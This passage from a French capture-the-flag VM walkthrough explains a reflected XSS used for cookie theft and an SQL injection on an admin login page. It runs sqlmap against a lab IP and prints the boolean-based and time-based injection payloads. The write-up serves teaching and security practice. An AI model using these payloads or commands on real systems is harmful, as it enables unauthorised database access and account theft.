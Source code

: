 En remplaçant ici le paramètre ```message``` par du code Javascript, celui-ci sera réécrit dans la réponse du serveur et s'exécutera dans le navigateur du client. Si le code JavaScript utilisé ici est relativement bénin, il est possible de se servir de cette vulnérabilité pour créer des liens malveillants qui, une fois cliqués par la victime, déclencheront l'exécution du code malveillant dans son navigateur. Il s'agit du cas d'exploitation typique : l'exploitation de ces failles amène à la compromission et au vol de données privées d'un utilisateur. La première stratégie d'un attaquant consiste en général à la récupération d'un cookie pour ensuite usurper l'identité de sa cible.

Cependant, cette vulnérabilité n'entrera pas dans la résolution de cette VM. En revanche, l'injection SQL sur cette même page ```login.php```, si.

## Injection SQL sur la page /admin/login.php

Ce formulaire de connexion consiste en deux champs : un login (paramètre ```username```) et un mot de passe (paramètre ```password```). Ces données sont envoyées [avec la méthode HTTP POST](https://developer.mozilla.org/fr/docs/HTTP/M%C3%A9thode/POST) puis traitées par le serveur qui renverra le message de confirmation susmentionné. Or une personne malveillante [n'aura pas la même vision qu'un internaute légitime](https://en.wikipedia.org/wiki/Thinking_outside_the_box) et se posera alors les questions suivantes : le serveur vérifie-t-il si ce que fournit l'utilisateur correspond bien à ce qui est attendu ? que se passerait-t-il si, au lieu d'un login composé de caractères alphanumériques, le serveur devait recevoir et traiter une centaine de caractères spéciaux ? et si, au lieu de caractères spéciaux aléatoires, ils étaient spécifiquement conçus de telle sorte à ce qu'il soit possible d'interagir avec le serveur et la base de données ? et pourquoi pas récupérer intégralement, grâce à ce code, le contenu de la base de données ?

Pour un attaquant, le but du jeu est de modifier le fonctionnement d'origine d'une fonction, d'un programme ou d'un script, en y insérant des données non prévues. Les failles dites d'injection surviennent lorsqu'il n'y a pas de contrôle, de filtrage ou de validation sur les données entrantes. Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "https://192.168.56.103/admin/index.php" --dbms=MySQL --data="username=test&password=test"
--snip--
[23:00:21] [INFO] testing if the target URL content is stable
[23:00:21] [WARNING] POST parameter 'username' does not appear to be dynamic
[23:00:22] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[23:00:22] [INFO] testing for SQL injection on POST parameter 'username'
--snip--
[23:00:27] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
--snip--
[23:01:18] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--

sqlmap identified the following injection point(s) with a total of 306 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: username=-4235" OR 9281=9281#&password=test

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test" OR SLEEP(5)-- QDzg&password=test
---
[23:02:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 6.8
```